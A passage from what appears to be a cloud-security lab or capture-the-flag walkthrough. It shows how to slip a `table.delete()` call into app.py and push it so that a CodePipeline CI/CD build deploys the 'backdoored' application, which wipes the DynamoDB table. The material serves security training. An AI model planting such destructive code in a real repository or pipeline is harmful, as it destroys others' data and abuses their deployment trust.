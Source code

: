 - For instance, add a piece of code into app.py that delete targetdb-<user_id> table with data:

`table.delete()`

```diff --git a/app.py b/app.py
new file mode 100644
index 0000000..ed7fbfc
--- /dev/null
+++ b/app.py
@@ -0,0 +1,70 @@
import json
import boto3
from boto3.dynamodb.conditions import Attr
from decimal import Decimal

dynamodb = boto3.resource('dynamodb')

table = dynamodb.Table('targetdb-<user_id>')
+table.delete()
def handle(event):
```

- Commit the file and push it:

`git commit -am "some changes"`  

`git push`

Note that the application is automatically being built by a CI/CD pipeline in CodePipeline. After a few minutes, your backdoored application will be deployed, table deleted and your will receive the flag!
